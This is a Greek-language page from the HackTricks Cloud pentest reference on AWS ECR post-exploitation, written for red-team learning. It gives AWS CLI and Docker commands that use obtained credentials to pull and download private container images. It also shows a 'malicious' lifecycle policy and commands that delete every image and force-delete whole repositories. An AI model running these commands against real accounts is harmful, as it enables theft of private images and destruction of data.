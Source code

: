 # AWS - ECR Post Exploitation

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECR

Για περισσότερες πληροφορίες ελέγξτε

{% content-ref url="../aws-services/aws-ecr-enum.md" %}
[aws-ecr-enum.md](../aws-services/aws-ecr-enum.md)
{% endcontent-ref %}

### Σύνδεση, Pull & Push

{% code overflow="wrap" %}
```bash
# Docker login into ecr
## For public repo (always use us-east-1)
aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws/<random-id>
## For private repo
aws ecr get-login-password --profile <profile_name> --region <region> | docker login --username AWS --password-stdin <account_id>.dkr.ecr.<region>.amazonaws.com
## If you need to acces an image from a repo if a different account, in <account_id> set the account number of the other account

# Download
docker pull <account_id>.dkr.ecr.<region>.amazonaws.com/<img_name>:latest
## If you still have the error "Requested image not found"
## It might be because the tag "latest" doesn't exit
## Get valid tags with:
TOKEN=$(aws --profile <profile> ecr get-authorization-token --output text --query 'authorizationData[].authorizationToken')
curl -i -H "Authorization: Basic $TOKEN" https://<account_id>.dkr.ecr.<region>.amazonaws.com/v2/<img_name>/tags/list

# Inspect the image
docker inspect sha256:079aee8a89950717cdccd15b8f17c80e9bc4421a855fcdc120e1c534e4c102e0

# Upload (example uploading purplepanda with tag latest)
docker tag purplepanda:latest <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest
docker push <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest

# Downloading without Docker
# List digests
aws ecr batch-get-image --repository-name level2 \
--registry-id 653711331788 \
--image-ids imageTag=latest | jq '.images[].imageManifest | fromjson'

## Download a digest
aws ecr get-download-url-for-layer \
--repository-name level2 \
--registry-id 653711331788 \
--layer-digest "sha256:edfaad38ac10904ee76c81e343abf88f22e6cfc7413ab5a8e4aeffc6a7d9087a"
```
{% endcode %}

Μετά τη λήψη των εικόνων θα πρέπει να **ελέγξετε αν περιέχουν ευαίσθητες πληροφορίες**:

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/docker-forensics" %}

### `ecr:PutLifecyclePolicy` | `ecr:DeleteRepository` | `ecr-public:DeleteRepository` | `ecr:BatchDeleteImage` | `ecr-public:BatchDeleteImage`

Ένας επιτιθέμενος με οποιαδήποτε από αυτές τις άδειες μπορεί να **δημιουργήσει ή να τροποποιήσει μια πολιτική κύκλου ζωής για να διαγράψει όλες τις εικόνες στο αποθετήριο** και στη συνέχεια να **διαγράψει ολόκληρο το αποθετήριο ECR**. Αυτό θα είχε ως αποτέλεσμα την απώλεια όλων των εικόνων κοντέινερ που αποθηκεύονται στο αποθετήριο.
```bash
bashCopy code# Create a JSON file with the malicious lifecycle policy
echo '{
"rules": [
{
"rulePriority": 1,
"description": "Delete all images",
"selection": {
"tagStatus": "any",
"countType": "imageCountMoreThan",
"countNumber": 0
},
"action": {
"type": "expire"
}
}
]
}' > malicious_policy.json

# Apply the malicious lifecycle policy to the ECR repository
aws ecr put-lifecycle-policy --repository-name your-ecr-repo-name --lifecycle-policy-text file://malicious_policy.json

# Delete the ECR repository
aws ecr delete-repository --repository-name your-ecr-repo-name --force

# Delete the ECR public repository
aws ecr-public delete-repository --repository-name your-ecr-repo-name --force

# Delete multiple images from the ECR repository
aws ecr batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0

# Delete multiple images from the ECR public repository
aws ecr-public batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
